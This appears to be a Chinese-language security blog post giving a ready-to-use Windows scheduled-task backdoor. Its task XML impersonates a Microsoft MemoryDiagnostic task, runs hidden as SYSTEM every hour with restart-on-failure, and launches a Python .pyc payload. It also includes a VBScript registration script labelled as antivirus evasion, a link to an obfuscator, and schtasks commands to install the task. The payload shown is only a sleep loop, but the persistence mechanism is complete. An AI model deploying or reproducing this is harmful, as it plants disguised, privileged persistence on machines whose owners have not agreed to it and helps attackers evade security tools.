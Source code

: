 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-10-04T14:00:20+08:00
title: 计划任务 Backdoor
---
```


<!--more-->

Updated on 2019-10-04

## 123.xml
```xml
<?xml version="1.0" ?>
<Task version="1.6" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Source>Microsoft Corporation</Source>
    <Author>Microsoft Corporation</Author>
    <URI>\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents</URI>
  </RegistrationInfo>
  <Triggers>
    <TimeTrigger>
      <Repetition>
        <Interval>PT1H</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2000-01-01T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
    </TimeTrigger>
  </Triggers>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>false</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>true</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <DisallowStartOnRemoteAppSession>false</DisallowStartOnRemoteAppSession>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
    <WakeToRun>true</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>0</Priority>
    <RestartOnFailure>
      <Interval>PT5M</Interval>
      <Count>3</Count>
    </RestartOnFailure>
  </Settings>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>"%ProgramFiles%\Waves\python\pythonw.exe"</Command>
      <Arguments>123.pyc</Arguments>
      <WorkingDirectory>%ProgramFiles%\Waves\python</WorkingDirectory>
    </Exec>
  </Actions>
</Task>
```

### Reference
* https://docs.microsoft.com/zh-cn/windows/win32/taskschd/task-scheduler-schema
* https://docs.microsoft.com/zh-cn/windows/security/identity-protection/access-control/security-identifiers

## 123.pyc

### 123.py

```python
import time
while True: time.sleep(5)
```

```bash
python -m compileall 123.py # output: __pycache__/123.cpython-313.pyc
```

## 注册任务

### 脚本（免杀）

#### 123.vbs

```
Set service = CreateObject("Schedule.Service")
service.Connect

Set file = CreateObject("Scripting.FileSystemObject").OpenTextFile("123.xml")
text = file.ReadAll
file.Close

Set rootFolder = service.GetFolder("\")
rootFolder.RegisterTask "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents", text, 6, , , 5
```

```bash
cscript.exe //Nologo 123.vbs

wscript.exe：输出至 Windows，
cscript.exe：输出至 Console。
```

#### Reference
* https://ss64.com/vb/filesystemobject.html
* https://docs.microsoft.com/zh-cn/dotnet/api/microsoft.visualbasic.constants
* https://docs.microsoft.com/zh-cn/office/vba/language/reference/user-interface-help/filesystemobject-object
* https://github.com/DoctorLai/VBScript_Obfuscator

### 工具
```
schtasks.exe /create /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f /xml 123.xml
schtasks.exe /query  /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /v /fo list
schtasks.exe /delete /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f
```
